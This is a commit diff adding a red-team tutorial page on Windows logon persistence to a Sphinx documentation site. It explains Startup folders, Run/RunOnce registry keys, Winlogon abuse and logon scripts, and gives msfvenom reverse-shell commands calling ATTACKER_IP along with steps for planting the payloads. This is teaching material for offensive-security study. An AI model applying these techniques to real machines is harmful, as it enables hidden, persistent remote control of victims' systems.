

Before and after one commit to tymyrddin/red-hurdles, a Sphinx documentation site: the page built from source/docs/persistence/logon.md, in a window 1280 px wide and 1400 px high, scrolled down 504 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

```diff
--- a/source/docs/persistence/logon.md
+++ b/source/docs/persistence/logon.md
@@ -1 +1,85 @@
 # Logon triggered persistence
+
+Windows operating systems present several ways to link payloads with particular interactions.
+
+## Startup folder
+
+Every user has a `Startup` folder:
+
+    C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
+
+where each user can put executables to be run whenever they log in. Each user will only run whatever is available
+in their folder. An attacker can achieve persistence just by dropping a payload in there.
+
+If we want to force all users to run a payload while logging in, we can use the folder:
+
+    C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
+
+Generate a reverse shell payload using `msfvenom`:
+
+    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe
+
+Copy the payload into the target machine by spawning an `http.server` with Python and using `wget` on the target
+machine to download the file. Start listener on port 4450.
+
+Store it in the `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` folder to get a shell back for
+any user logging into the machine:
+
+    copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
+
+Sign out of the session from the start menu (closing an RDP window is not enough as it leaves the session open),
+and log back in via RDP to receive a connection back to the attack machine.
+
+## Run/RunOnce
+
+Instead of delivering a payload into a specific directory, you can also use the following registry entries to
+specify applications to run at logon:
+
+    HKCU\Software\Microsoft\Windows\CurrentVersion\Run
+    HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
+    HKLM\Software\Microsoft\Windows\CurrentVersion\Run
+    HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
+
+The registry entries under `HKCU` will only apply to the current user, and those under `HKLM` will apply to everyone.
+Any program specified under the `Run` keys will run every time the user logs on. Programs specified under the
+`RunOnce` keys will only be executed a single time.
+
+Create a reverse shell with msfvenom:
+
+    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4451 -f exe -o revshell.exe
+
+After transferring it to the victim machine, move it to `C:\Windows\`:
+
+    move revshell.exe C:\Windows
+
+Create a `REG_EXPAND_SZ` registry entry under `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`. The entry's name
+can be anything, and the value is the command we want to execute.
+
+Start a listener, sign out of the current session and log in again, and you should receive a shell.
+
+## Winlogon
+
+Another alternative to automatically start programs on logon is abusing `Winlogon`, the Windows component that
+loads a user's profile right after authentication (amongst other things).
+
+Winlogon uses some registry keys under `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\` that can be
+used to gain persistence:
+
+* `Userinit` points to `userinit.exe`, which is in charge of restoring your user profile preferences.
+* `shell` points to the system's shell, which is usually `explorer.exe`.
+
+Replacing any of the executables with a reverse shell break sthe logon sequence, but you can append commands
+separated by a comma, and Winlogon will process them all.
+
+## Logon scripts
+
+One of the things `userinit.exe` does while loading a user profile is to check for an environment variable called
+`UserInitMprLogonScript`. We can use this environment variable to assign a logon script to a user that will get
+run when logging into the machine. The variable is not set by default, so we can just create it and assign any
+script we like.
+
+Create a reverse shell, put it anywhere, create an environment variable for a user, go to its `HKCU\Environment`
+in the registry. Use the `UserInitMprLogonScript` entry to point to the payload for it to get loaded when the
+user logs in.
+
+Set up a listener, sign out of the current session and log in again.
```
Also changed, not shown: source/docs/persistence/tasks.md (+10 -0 lines).
